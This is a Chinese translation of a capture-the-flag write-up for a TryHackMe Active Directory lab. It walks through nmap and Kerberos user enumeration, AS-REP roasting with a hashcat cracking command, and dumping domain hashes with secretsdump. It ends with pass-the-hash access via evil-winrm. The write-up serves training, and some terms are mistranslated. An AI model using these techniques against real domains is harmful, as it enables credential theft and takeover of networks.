








# 攻击目录

> 原文：<https://infosecwriteups.com/attacktive-directory-d1ab5fef716a?source=collection_archive---------0----------------------->

## 来自尝试黑我的活动目录房间

**简介:**

这个房间旨在让您对什么是活动目录环境有一点了解。以及如何在域环境中枚举、利用和提升您的权限。

**什么是活动目录？**

活动目录(AD)是一个数据库和一组服务，将用户与他们完成工作所需的网络资源联系起来。

数据库(或目录)包含关于您的环境的关键信息，包括有哪些用户和计算机，以及允许谁做什么。例如，数据库可能会列出 100 个用户帐户，包括每个人的职位、电话号码和密码等详细信息。它还会记录他们的权限。

**枚举:**

让我们从枚举开始。Nmap 可以在这方面帮助我们。你可以使用任何你喜欢的端口扫描器，例如:Rustscan，Masscan 也可以。

```
NMAP# Nmap 7.92 scan initiated Mon Aug  1 09:40:35 2022 as: nmap -sC -sV -p- --min-rate 1500 -oN nmap.out 10.10.210.216
Nmap scan report for 10.10.210.216
Host is up (0.18s latency).
Not shown: 65508 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
**53/tcp    open  domain        Simple DNS Plus**
**80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE**
**88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-08-01 13:41:39Z)**
**135/tcp   open  msrpc         Microsoft Windows RPC**
**139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)**
**445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped**
**3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: THM-AD
|   NetBIOS_Domain_Name: THM-AD
|   NetBIOS_Computer_Name: ATTACKTIVEDIREC
|   DNS_Domain_Name: spookysec.local
|   DNS_Computer_Name: AttacktiveDirectory.spookysec.local
|   Product_Version: 10.0.17763
|_  System_Time: 2022-08-01T13:42:43+00:00
|_ssl-date: 2022-08-01T13:43:13+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=AttacktiveDirectory.spookysec.local
| Not valid before: 2022-07-31T13:20:35
|_Not valid after:  2023-01-30T13:20:35**
**5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  unknown
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  unknown
49672/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49676/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49685/tcp open  msrpc         Microsoft Windows RPC
49696/tcp open  msrpc         Microsoft Windows RPC
49824/tcp open  msrpc         Microsoft Windows RPC**
Service Info: Host: ATTACKTIVEDIREC; OS: Windows; CPE: cpe:/o:microsoft:windowsHost script results:
| smb2-time: 
|   date: 2022-08-01T13:42:43
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and requiredService detection performed. Please report any incorrect results at [https://nmap.org/submit/](https://nmap.org/submit/) .
# Nmap done at Mon Aug  1 09:43:18 2022 -- 1 IP address (1 host up) scanned in 163.82 seconds
```

我们可以得到一些关于目标的信息。

```
**|   Target_Name: THM-AD
|   NetBIOS_Domain_Name: THM-AD
|   NetBIOS_Computer_Name: ATTACKTIVEDIREC
|   DNS_Domain_Name: spookysec.local
|   DNS_Computer_Name: AttacktiveDirectory.spookysec.local
|   Product_Version: 10.0.17763**
```

**SMB 枚举:**

我们看到 SMB 处于活动状态，让我们尝试列举它。我们可以使用多种工具来列举 SMB

> 1: Smbclient
> 
> 2: Smbmap
> 
> 3: Enum4linux

```
=================================( Share Enumeration on 10.10.210.216 )=================================do_connect: Connection to 10.10.210.216 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)Sharename       Type      Comment
        ---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
Unable to connect with SMB1 -- no workgroup available[+] Attempting to map shares on 10.10.210.216
```

我尝试用所有的工具枚举，但没有股票上市。

**通过 Kerberos 枚举用户:**

在端口 88 Kerberos 正在运行，也许我们可以通过 Kerberos 枚举有效用户。如果您想了解 kerberos 是什么以及它是如何工作的，您可以观看此视频，它解释了 Kerberos 如何执行身份验证。

[安装 Kerbrute](https://github.com/ropnop/kerbrute) :

使用 userenum 标志，并尝试使用房间作者提供的用户名列表来枚举用户。

```
[0/45]
    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/Version: v1.0.3 (9dad6e1) - 08/03/22 - Ronnie Flathers [@ropnop](http://twitter.com/ropnop)2022/08/03 09:20:12 >  Using KDC(s):
2022/08/03 09:20:12 >   spookysec.local:88james@spookysec.local
svc-admin@spookysec.local
James@spookysec.local
robin@spookysec.local
darkstar@spookysec.local
administrator@spookysec.local
backup@spookysec.local
paradox@spookysec.local
JAMES@spookysec.local
Robin@spookysec.local
Administrator@spookysec.local
Darkstar@spookysec.local
Paradox@spookysec.local
DARKSTAR@spookysec.local
ori@spookysec.local
ROBIN@spookysec.local
```

有效用户

**作为重新发布:**

在枚举完用户帐户之后，我们可以尝试滥用 Kerberos 中的一个特性，使用一种叫做**as repasting 的攻击方法。**当用户帐户具有“不需要预认证”权限设置时，会发生重新发布。这意味着帐户**在请求指定用户帐户上的 Kerberos 票据之前不需要提供有效的身份证明。**

布兰登重新录制了一个很棒的视频。

让我们尝试进行攻击。



GetNPusers.py

在我们得到一个散列后，只需复制这个散列并保存到一个文件中，然后运行 hascat 来尝试破解这个散列。

语法:

```
hashcat -m 18200 hash password.list
```



哈希卡特

获得有效凭据后，我们可以尝试列出需要身份认证的 smb 共享。

**中小企业股票:**



分享

我们看到了备份共享，它特别有趣，让我们用 smbclient 连接到它。



服务器信息块

我们可以看到一个 backup_credentials.txt 让我们得到它。



看起来像 base64 编码让我们解码它



Creds

我们获得了另一个用户的凭据。

**提升域内权限:**

现在我们有了新的用户帐户凭据，我们在系统上可能比以前拥有更多的特权。帐户“backup”的用户名引发了我们的思考。这是什么备份帐户？这是域控制器的备份帐户。此帐户具有唯一权限，允许所有 Active Directory 更改与此用户帐户同步。这包括密码哈希。

我们可以使用 impacket 的 secretsdump.py 来检索所有的散列。



混杂

有了用户的散列，我们可以执行一个非常有效的攻击“传递散列”,如果你想了解更多关于传递散列攻击的信息。

我们可以用 evil-winrm 来攻击。



Evilwinrm

现在只需获取所有标志并提交即可。

一会儿见。

黑客快乐！

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 条线索、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！